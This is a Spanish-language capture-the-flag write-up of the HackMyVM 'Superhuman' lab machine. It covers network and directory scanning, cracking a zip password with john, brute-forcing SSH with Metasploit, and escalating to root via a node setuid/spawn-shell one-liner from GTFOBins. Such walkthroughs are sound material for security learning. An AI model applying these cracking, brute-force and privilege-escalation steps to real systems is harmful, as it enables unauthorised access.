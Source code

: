 ## MAQUINA SUPERHUMAN 

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20233159.png)

Hacemos un escaneo de red con arp-scan

```console
arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 08:00:27:57:91:54, IPv4: 192.168.0.162
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.0.1     f8:08:4f:71:a2:de       Sagemcom Broadband SAS
192.168.0.33    08:00:27:1d:22:f1       PCS Systemtechnik GmbH
192.168.0.234   4c:82:a9:09:41:63       CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD.
192.168.0.232   18:c0:4d:26:7c:42       GIGA-BYTE TECHNOLOGY CO.,LTD.
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212435.png)

Listo ya tenemos la ip victima, ahora lanzamos un ping a ella para verificar que tengamos conectividad

```console
ping -c 3 192.168.0.33
PING 192.168.0.33 (192.168.0.33) 56(84) bytes of data.
64 bytes from 192.168.0.33: icmp_seq=1 ttl=64 time=3.54 ms
64 bytes from 192.168.0.33: icmp_seq=2 ttl=64 time=1.19 ms
64 bytes from 192.168.0.33: icmp_seq=3 ttl=64 time=0.815 ms
```

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212529.png)

Lanzamos un escaneo con nmap a la maquina victima para ver que puertos y servicios estan abiertos:

```console
nmap -A -T5 192.168.0.33 -oN escaneo2.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 21:25 -03
Nmap scan report for superhuman.fibertel.com.ar (192.168.0.33)
Host is up (0.0011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9e:41:5a:43:d8:b3:31:18:0f:2e:32:36:cf:68:c4:b7 (RSA)
|   256 6f:24:81:b4:3d:e5:b9:c8:47:bf:b2:8b:bf:41:2d:51 (ECDSA)
|_  256 49:5f:c0:7a:42:20:76:76:d5:29:1a:65:bf:87:d2:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:1D:22:F1 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212619.png)

La pagina nos arroja un entorno todo en blanco, el cual no nos sirve de nada, asi que vamos a realizar un escaneo de directorios ocultos con gobuster.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212930.png)

```console
gobuster dir --url http://192.168.0.33/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt.

Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
/notes-tips.txt       (Status: 200) [Size: 358]
```

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20224922.png)

CONSEJO: "Prueben esa wordlists y mandenle full a los hilos porque tarda"

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20223932.png)

El gobuster nos arroja un directorio llamado /notes-tips.txt, ingresamos a ella y tenemos esta cadena de texto rara.

```console
F(&m'D.Oi#De4!--ZgJT@;^00D.P7@8LJ?tF)N1B@:UuC/g+jUD'3nBEb-A+De'u)F!,")@:UuC/g(Km+CoM$DJL@Q+Dbb6ATDi7De:+g@<HBpDImi@/hSb!FDl(?A9)g1CERG3Cb?i%-Z!TAGB.D>AKYYtEZed5E,T<)+CT.u+EM4--Z!TAA7]grEb-A1AM,)s-Z!TADIIBn+DGp?F(&m'D.R'_DId*=59NN?A8c?5F<G@:Dg*f@$:u@WF`VXIDJsV>AoD^&ATT&:D]j+0G%De1F<G"0A0>i6F<G!7B5_^!+D#e>ASuR'Df-\,ARf.kF(HIc+CoD.-ZgJE@<Q3)D09?%+EMXCEa`Tl/c
```

Para decodificar esto utilize la siguiente pagina ya que no podia decifrarla.

>https://www.dcode.fr/ascii-85-encoding

Una vez decodifcada dice lo siguiente:

>salome doesn't want me, I'm so sad... i'm sure god is dead...

>I drank 6 liters of Paulaner.... too drunk lol. I'll write her a poem and she'll

>desire me. I'll name it salome_and_?? I don't know.

>I must not forget to save it and put a good extension because I don't have much storage

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20225309.png)

Al parecer el que escribio esta nota, guardo un poema que se llama salome_and_??.

Bien si nos ponemos a pensar dice que lo guardo en una extension porque no tenia espacio xD, eso nos da una pista de que puedo ser una extension tar,zip,gz.. otro caso son los signos de pregunta de como se llama el poema "??", piensen, yo supongo que como habla de él debe ser "me".

Vamos a ver si existe, coloquemos las posibilidades en el navegador.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20225700.png)

Se nos descargo un archivo, con john the ripper vamos a tratar de crackear la pass del archivo.

```console
zip2john salome_and_me.zip > hash-zip
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230110.png)

Luego: 

```console

john --wordlist=/usr/share/wordlists/rockyou.txt hash-zip 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (salome_and_me.zip/salome_and_me.txt)     
1g 0:00:00:00 DONE (2024-04-13 23:00) 16.66g/s 170666p/s 170666c/s 170666C/s 123456..1asshole
Use the "--show" option to display all of the cracked passwords reliably
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230115.png)

Una vez descargado leemos el poema y aca tenemos al dueño del poema el Sr. fred.

```console
----------------------------------------------------

             GREAT POEM FOR SALOME

----------------------------------------------------


My name is fred,
And tonight I'm sad, lonely and scared,
Because my love Salome prefers schopenhauer, asshole,
I hate him he's stupid, ugly and a peephole,
My darling I offered you a great switch,
And now you reject my love, bitch
I don't give a fuck, I'll go with another lady,
And she'll call me BABY!

```

Ya tenemos una credencial, si pensamos y leemos el poema, notamos que tiene palabras medias raras, lo que hize fue colocar todas las palabras una debajo de la otra para luego utilizarla de contraseñas para logearnos en el SSH.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230436.png)

Con metasploit vamos a ingresar las opciones para ver si conseguimos dar con la contraseña.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20231410.png)

Y BIEN! obtivimos la password, aclaro que tambien se puede hacer son "hydra" a la fuerza bruta.

Ingresamos con las credenciales y somos el usuario fred.

Chusmeamos a que tenemos por delante

```console
fred@superhuman:~$ uname -a 
Linux superhuman 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
fred@superhuman:~$ lsb_release -a 
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 10 (buster)
Release:        10
Codename:       buster
```

Aca hay un pequeño detalle, al listar el contenido del directorio, esta nos bota o rechaza o nos saca como quieran decirlo, asi que encontra esta forma de buscar y leer las flags ya que si le coloque el "ID" y no me saco XD.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232002.png)

```console

find / -type f -name '*.txt' 2>/dev/null
/home/fred/cmd.txt
/home/fred/user.txt
/var/www/html/notes-tips.txt
```

Excelente, ahora nos queda por escalar privilegios, para eso utilizamos el siguiente:

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232740.png)

Hay una capabilities que podemos explotar, en este caso vamos a gtfobins >> node >> y vemos que tenemos las capabilities. Para loguearnos como root usamos el siguiente comando.

>fred@superhuman:/$ which node
/usr/bin/node
fred@superhuman:/$ /usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232957.png)


##SOMOS ROOT.



